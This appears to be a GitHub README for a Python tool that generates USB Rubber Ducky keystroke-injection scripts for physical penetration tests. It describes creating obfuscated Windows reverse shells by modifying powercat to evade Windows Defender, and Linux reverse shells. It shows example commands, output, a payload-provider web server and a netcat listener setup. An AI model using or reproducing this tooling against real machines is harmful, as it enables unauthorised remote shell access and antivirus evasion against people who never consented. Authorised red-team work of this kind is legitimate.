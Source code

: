 # duckyScripting
Just my rubber ducky scripts and some wrappers.

## help
```
$ python3 quack.py -h
usage: quack.py [-h] [-s] [-wr] [-lr] [-l LISTENER] [-pp PAYLOADPROVIDER]

Prepare rubber ducky scripts for physical engagments. Tool made by H4. Creds for powercat go to https://github.com/besimorhino/powercat

optional arguments:
  -h, --help            show this help message and exit
  -s, --setup           initial setup
  -wr, --windowsReverse
                        creating an obfuscated Windows reverse shell
  -lr, --linuxReverse   creating a Linux reverse shell (tested under Ubuntu 22.04.3)
  -l LISTENER, --listener LISTENER
                        IP and port of shell listener. Format: IP:PORT (needed for -wr option)
  -pp PAYLOADPROVIDER, --payloadProvider PAYLOADPROVIDER
                        server which provides the obfuscated powercat version. Format: IP:PORT (needed for -wr option)

example usage: python3 quack.py-wr -l 192.168.1.10:8001 -pp 192.168.1.10:80
```

## setup
Start by running in setup mode to download every needed resource.
```bash
$ python3 quack.py --setup
[#] 1. Downloading powercat (https://github.com/besimorhino/powercat) for Windows reverse shell payload...
```

## reverse shells
### Windows
- Using [Powercat](https://github.com/besimorhino/powercat)
- Modifying [Powercat](https://github.com/besimorhino/powercat) to bypass Windows Defender detection

Example
```
python3 quack.py -wr -l 192.168.1.10:8001 -pp 192.168.1.10:80

[#] Selected payload: Windows reverse shell

[#] 1. Are all parameters correct?
[#]	shell listener IP: 192.168.1.10
[#]	shell listener PORT: 8001
[#]	payload provider IP: 192.168.1.10
[#]	payload provider PORT: 80
[#] Y/N? Y

[#] 2. Obfuscating powercat...

[#] 3. Creating ducky script payload...
[+] Ducky script payload wrote to generated_scripts/tojszwdbxnsoidwl_windows_reverse_shell.txt

[#] Before you use the ducky script perform the following steps.
[#]	1. Start a web server on 192.168.1.10 to provide the obfuscated powercat script:
[#]		- Copy tojszwdb.ps1 to 192.168.1.10
[#]		- In the same folder as tojszwdb.ps1 start a web server: python3 -m http.server 80
[#]	2. Start the shell listener on 192.168.1.10:
[#]		- Start nc -lvp 8001

[+] Good bye! Have fun with the ducky script.
```
